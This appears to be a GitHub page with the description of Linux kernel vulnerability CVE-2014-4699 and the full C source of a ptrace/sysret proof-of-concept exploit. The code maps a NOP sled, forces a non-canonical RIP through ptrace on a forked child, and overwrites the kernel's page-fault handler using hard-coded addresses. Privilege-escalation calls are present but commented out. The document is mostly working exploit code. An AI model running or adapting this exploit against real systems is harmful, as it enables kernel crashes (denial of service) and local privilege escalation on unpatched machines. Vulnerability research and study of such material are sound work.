 INFO
----

The Linux kernel before 3.15.4 on Intel processors does not properly restrict use of a non-canonical value for the saved RIP address in the case of a system call that does not use IRET, which allows local users to leverage a race condition and gain privileges, or cause a denial of service (double fault), via a crafted application that makes ptrace and fork system calls.

POC
---

    /**
     * CVE-2014-4699 ptrace/sysret PoC
     * by Vitaly Nikolenko
     * vnik5287@gmail.com
     *
     * > gcc -O2 poc_v0.c
     *
     * This code is kernel specific. On Ubuntu 12.04.0 LTS (3.2.0-23-generic), the
     * following will trigger the #GP in sysret and overwrite the #PF handler so we
     * can land to our NOP sled mapped at 0x80000000.
     * However, once landed, the IDT will be trashed. We can either attempt to
     * restore it (then escalate privileges and execute our shellcode) or find
     * something else to overwrite that would transfer exec flow to our controlled
     * user-space address. Since 3.10.something, IDT is read-only anyway. If you
     * have any ideas, let me know.
     */

    #include <stdio.h>
    #include <stdint.h>
    #include <assert.h>
    #include <sys/ptrace.h>
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <sys/syscall.h>
    #include <sys/user.h>
    #include <unistd.h>
    #include <sys/mman.h>
    #include <errno.h>

    #define SIZE  0x10000000

    typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
    typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

    unsigned long __user_cs;
    unsigned long __user_ss;
    unsigned long __user_rflags;

    void __attribute__((regparm(3))) payload() {
        uint32_t *fixptr = (void*)0xffffffff81dd70e8;
        // restore the #PF handler
        *fixptr = -1;
        //commit_creds_fn commit_creds = (commit_creds_fn)0xffffffff81091630;
        //prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)0xffffffff810918e0;
        //commit_creds(prepare_kernel_cred((uint64_t)NULL));

        //__asm__ volatile ("swapgs\n\t"
        //        "...");
    }

    int main() {
        struct user_regs_struct regs;
        uint8_t *trampoline, *tmp;
        int status;

        struct {
            uint16_t limit;
            uint64_t addr;
        } __attribute__((packed)) idt;

            // MAP_POPULATE so we don't trigger extra #PF
        trampoline = mmap(0x80000000, SIZE, 7|PROT_EXEC|PROT_READ|PROT_WRITE, 0x32|MAP_FIXED|MAP_POPULATE|MAP_GROWSDOWN, 0,0);
        assert(trampoline == 0x80000000);
        memset(trampoline, 0x90, SIZE);
            tmp = trampoline;
            tmp += SIZE-1024;
            memcpy(tmp, &payload, 1024);
        memcpy(tmp-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);

        pid_t chld;

            if ((chld = fork()) < 0) {
            perror("fork");
            exit(1);
        }

        if (chld == 0) {
            if (ptrace(PTRACE_TRACEME, 0, 0, 0) != 0) {
                perror("PTRACE_TRACEME");
                exit(1);
            }
            raise(SIGSTOP);
            fork();
            return 0;
        }

        asm volatile("sidt %0" : "=m" (idt));
        printf("IDT addr = 0x%lx\n", idt.addr);

        waitpid(chld, &status, 0);

        ptrace(PTRACE_SETOPTIONS, chld, 0, PTRACE_O_TRACEFORK);

        ptrace(PTRACE_CONT, chld, 0, 0);

        waitpid(chld, &status, 0);

            ptrace(PTRACE_GETREGS, chld, NULL, &regs);
        regs.rdi = 0x0000000000000000;
        regs.rip = 0x8fffffffffffffff;
        regs.rsp = idt.addr + 14*16 + 8 + 0xb0 - 0x78;

        // attempt to restore the IDT
        regs.rdi = 0x0000000000000000;
        regs.rsi = 0x81658e000010cbd0;
        regs.rdx = 0x00000000ffffffff;
        regs.rcx = 0x81658e000010cba0;
        regs.rax = 0x00000000ffffffff;
        regs.r8  = 0x81658e010010cb00;
        regs.r9  = 0x00000000ffffffff;
        regs.r10 = 0x81668e0000106b10;
        regs.r11 = 0x00000000ffffffff;
        regs.rbx = 0x81668e0000106ac0;
        regs.rbp = 0x00000000ffffffff;
        regs.r12 = 0x81668e0000106ac0;
        regs.r13 = 0x00000000ffffffff;
        regs.r14 = 0x81668e0200106a90;
        regs.r15 = 0x00000000ffffffff;

            ptrace(PTRACE_SETREGS, chld, NULL, &regs);

        ptrace(PTRACE_CONT, chld, 0, 0);

        ptrace(PTRACE_DETACH, chld, 0, 0);
    }